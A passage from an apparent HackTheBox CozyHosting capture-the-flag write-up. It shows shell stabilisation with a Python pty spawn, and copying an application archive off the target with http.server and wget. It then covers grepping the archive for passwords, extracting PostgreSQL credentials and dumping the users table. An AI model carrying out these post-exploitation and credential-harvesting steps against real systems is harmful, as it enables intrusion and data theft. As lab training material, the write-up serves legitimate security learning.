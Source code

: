 ```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
ctrl + z  
stty raw -echo; fg
```
![cozyhosting-stable-shell](/images/HTB-CozyHosting/stable-shell.png)

> Do not worry if you cannot see the prompt after running the last command, just press `Enter` and everything will come back.

We find an archive on the target system, let's download it. 

I set up a server on the target

```
python3 -m http.server 8000
```

On my attack machine I run

```
wget cozyhosting.htb:8000/cloudhosting-0.0.1.jar
```

Unzip the archive with 

```
unzip cloudhosting-0.0.1.jar
```

I search through it with `grep -r password *` and I get some matches. I see that there is a password in `BOOT-INF/classes/application.properties`.

![cozyhosting-password-in-archive](/images/HTB-CozyHosting/password-location-springboot.png)

I output the content of the file on the terminal and I get a username on top of the password for a PostgreSQL database.

![cozyhosting-full-credentials](/images/HTB-CozyHosting/postgres-credentials.png)

We log in PostgreSQL with

```
psql -h 127.0.0.1 -U postgres
```

Then we connect to the database with 

```
\c cozyhosting
```
![cozyhosting-db-login](/images/HTB-CozyHosting/postgres-loggedin.png)

I then list the tables of the database with `\d`.

![cozyhosting-db-tables](/images/HTB-CozyHosting/db-tables.png)

I then run `select * from users;`, with this command PostgreSQL will retrieve all rows and all columns from the "users" table and return them as a result set. This query is commonly used to view the contents of a table and can be very useful for inspecting the data stored in the database.
